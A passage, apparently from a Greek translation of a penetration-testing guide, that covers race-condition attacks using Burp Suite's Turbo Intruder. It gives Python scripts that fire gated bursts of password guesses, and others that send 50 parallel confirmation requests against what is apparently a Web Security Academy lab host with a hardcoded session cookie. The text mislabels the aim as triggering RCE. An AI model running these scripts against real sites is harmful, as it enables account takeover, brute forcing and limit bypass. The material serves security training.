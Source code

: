 <figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

Εάν πρόκειται να **στείλετε διαφορετικές τιμές**, μπορείτε να τροποποιήσετε τον κώδικα με αυτόν που χρησιμοποιεί μια λίστα λέξεων από το πρόχειρο:
```python
passwords = wordlists.clipboard
for password in passwords:
engine.queue(target.req, password, gate='race1')
```
{% hint style="warning" %}
Εάν ο ιστότοπος δεν υποστηρίζει HTTP2 (μόνο HTTP1.1) χρησιμοποιήστε `Engine.THREADED` ή `Engine.BURP` αντί για `Engine.BURP2`.
{% endhint %}

* **Tubo Intruder - HTTP2 επίθεση μεμονωμένου πακέτου (Πολλές τελικές διαδρομές)**: Σε περίπτωση που χρειαστεί να στείλετε ένα αίτημα σε 1 τελική διαδρομή και στη συνέχεια πολλαπλά σε άλλες τελικές διαδρομές για να ενεργοποιήσετε το RCE, μπορείτε να αλλάξετε το σενάριο `race-single-packet-attack.py` με κάτι σαν:
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=1,
engine=Engine.BURP2
)

# Hardcode the second request for the RC
confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''

# For each attempt (20 in total) send 50 confirmation requests.
for attempt in range(20):
currentAttempt = str(attempt)
username = 'aUser' + currentAttempt

# queue a single registration request
engine.queue(target.req, username, gate=currentAttempt)

# queue 50 confirmation requests - note that this will probably sent in two separate packets
for i in range(50):
engine.queue(confirmationReq, gate=currentAttempt)

# send all the queued requests for this attempt
engine.openGate(currentAttempt)
```
* Είναι επίσης διαθέσιμο στο **Repeater** μέσω της νέας επιλογής '**Αποστολή ομάδας παράλληλα**' στο Burp Suite.
* Για **limit-overrun** θα μπορούσατε απλά να προσθέσετε το **ίδιο αίτημα 50 φορές** στην ομάδα.